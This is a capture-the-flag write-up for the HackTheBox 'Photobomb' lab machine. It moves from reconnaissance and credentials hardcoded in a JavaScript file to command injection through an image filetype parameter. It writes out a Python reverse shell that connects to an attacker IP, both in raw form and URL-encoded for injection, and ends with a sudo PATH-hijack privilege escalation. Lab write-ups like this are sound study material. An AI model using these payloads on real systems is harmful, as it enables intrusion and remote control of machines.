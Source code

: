 ![image1](https://github.com/visionthex/Photobomb/blob/main/Images/image1.png)
[![Hackthebox](https://img.shields.io/badge/HackTheBox-111927?style=for-the-badge&logo=Hack%20The%20Box&logoColor=9FEF00)](https://hackthebox.com)

# HackTheBox: Photobomb Writeup

## Photobomb
### Reconnaissance | Scanning

To begin with, our first priority is to conduct reconnaissance using the provided IP. Our plan is to perform an Nmap scan of the network in order to identify any open ports.

![image2](https://github.com/visionthex/Photobomb/blob/main/Images/image2.png "Nmap Scan")

By analyzing the current status, we can observe that only two ports are accessible - port 22 and port 80. The latter, identified as an http port, appears to be running nginx 1.18.0 on Ubuntu. Our next course of action is to focus on port 80 and investigate any potential website content. Utilizing the given IP address of `10.129.228.60`, we can explore the contents available on this specific port.

![image3](https://github.com/visionthex/Photobomb/blob/main/Images/image3.png "IP Showing URL Name")

At this point, we need to include the new URL `photobomb.htb` to the `/etc/hosts` file to access the corresponding webpage. From here we will nano into the `/etc/hosts` file.

![image4](https://github.com/visionthex/Photobomb/blob/main/Images/image4.png "etc/hosts file")

With the updated IP and URL added to the `/etc/hosts` file, we can now revisit the browser and access the photobomb.htb link. This will allow us to delve deeper into the website and conduct further investigation.

![image5](https://github.com/visionthex/Photobomb/blob/main/Images/image5.png "Webpage working properly")

On the page, we have a hyperlink "click here!" that leads to `photobomb.htb/printer`. Upon clicking on the link, a login popup appears. We attempted to log in with the credentials [![Credentials](https://img.shields.io/badge/admin:-admin-red)](https://shields.io/), but no response was generated. Cancelling the login led us to a 401 Authorization Required error, accompanied by nginx/1.18.0 (Ubuntu) message.

![image6](https://github.com/visionthex/Photobomb/blob/main/Images/image6.png "Login")

![image7](https://github.com/visionthex/Photobomb/blob/main/Images/image7.png "401 Authorization Required Link: photobomb.htb/printer")

Our next step is to examine the source code of the photobomb.htb webpage. After some investigation, we discovered a photobomb.js file that we can explore further.

![image8](https://github.com/visionthex/Photobomb/blob/main/Images/image8.png "photobomb.js file that show credentials")

After conducting a thorough examination of the photobomb.js file, we have uncovered the existence of credentials embedded within the Javascript code. Our next step is to attempt to log in using the credentials [![Credentials](https://img.shields.io/badge/pH0t0:-b0Mb!-green)](https://shields.io/).

![image9](https://github.com/visionthex/Photobomb/blob/main/Images/image9.png "Login page for phtobomb.htb/printer")
![image10](https://github.com/visionthex/Photobomb/blob/main/Images/image10.png "Bottom of page with Download Photo button")

Our next course of action is to set up BurpSuite in order to intercept the connections originating from the "Download Photo to Print" button. This will allow us to view any information or prompts that may appear prior to the page progressing further.

![image11](https://github.com/visionthex/Photobomb/blob/main/Images/image11.png "Intercepting with BurpSuite")

### Gaining Access
At this point, we can begin testing for any potential vulnerabilities with the "Download Photo to Print" button. Our initial approach will be to test for a delay or timing attack by attempting to cause a five-second delay and observing the response.

After conducting further testing and experimenting with the sleep function, it has been confirmed that the page can be made to sleep for five seconds. This may indicate the presence of a potential vulnerability that could be further exploited.

To obtain a reverse shell, we utilized the Online Reverse Shell Generator (revshells.com) and selected the Python3 #1 option.

```
export RHOST="10.10.14.78";export RPORT=5555;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
```

Our next step will involve URL encoding the reverse shell and embedding it into the `&filetype=jpg&` field in BurpSuite. Additionally, we must establish a Netcat listener. The method I used to URL encode the reverse shell is by utilizing the built-in function in BurpSuite.

```
%3bexport%20RHOST%3D%2210.10.14.78%22%3Bexport%20RPORT%3D5555%3Bpython3%20-c%20%27import%20sys%2Csocket%2Cos%2Cpty%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28os.getenv%28%22RHOST%22%29%2Cint%28os.getenv%28%22RPORT%22%29%29%29%29%3B%5Bos.dup2%28s.fileno%28%29%2Cfd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%22sh%22%29%27
```
![image12](https://github.com/visionthex/Photobomb/blob/main/Images/image12.png "URL Encoded Reverse Shell")

Upon advancing the page in BurpSuite, we successfully captured traffic using the Netcat listener. This indicates that the reverse shell was successfully executed and that we have gained access to the target system.

![image13](https://github.com/visionthex/Photobomb/blob/main/Images/image13.png "Netcat Listener | User Wizard")

Now that we have gained access to the target system, we can proceed to investigate the user "Wizard" and explore the contents of their account.

![image14](https://github.com/visionthex/Photobomb/blob/main/Images/image14.png "Traversing Directories found User Flag")

### Maintaining Access
After traversing through the system directories, I successfully obtained the user flag from the "user.txt" file. Our next step will be to obtain root privileges through privilege escalation.

![image15](https://github.com/visionthex/Photobomb/blob/main/Images/image15.png "Sudo -l")

Using the command `sudo -l`, we were able to determine the type of root privileges granted to the user. It appears that the user has root privileges to execute the command `/opt/clean.sh`. To proceed, we will investigate the `/opt/clean.sh` file by running the `cat /opt/clean.sh` command. This will display the contents of the file in the terminal.

![image16](https://github.com/visionthex/Photobomb/blob/main/Images/image16.png "cat /opt/cleanup.sh")

In the next step, we need to switch to the bash shell and then set the executable permission for the `find` file to gain complete access. We can accomplish this by running `chmod +x find`. The command `echo bash > find` will create a file named `find` in the current directory and write the string `bash` to it. If the file already exists, it will be overwritten.

![image17](https://github.com/visionthex/Photobomb/blob/main/Images/image17.png "echo bash > find | chmod +x find")

The next command is `sudo PATH=$PWD:$PATH /opt/cleanup.sh`. This will add the current working directory to the beginning of the $PATH environment variable, giving priority to any executables in the current directory over those in other directories. Then, it runs the `/opt/clean.sh` script with sudo, which will execute with root privileges because of the sudo command.

![image18](https://github.com/visionthex/Photobomb/blob/main/Images/image18.png "Root Access")

Once you have root access, you can investigate the system further for any important information, such as configuration files, logs, and running processes. This will help you understand how the system works and identify any potential vulnerabilities or misconfigurations that can be exploited. You can also check for any user accounts, credentials, or sensitive data that may be stored on the system. It's important to document your findings and take steps to secure the system to prevent future attacks.

![image19](https://github.com/visionthex/Photobomb/blob/main/Images/image19.png "Root Flag")
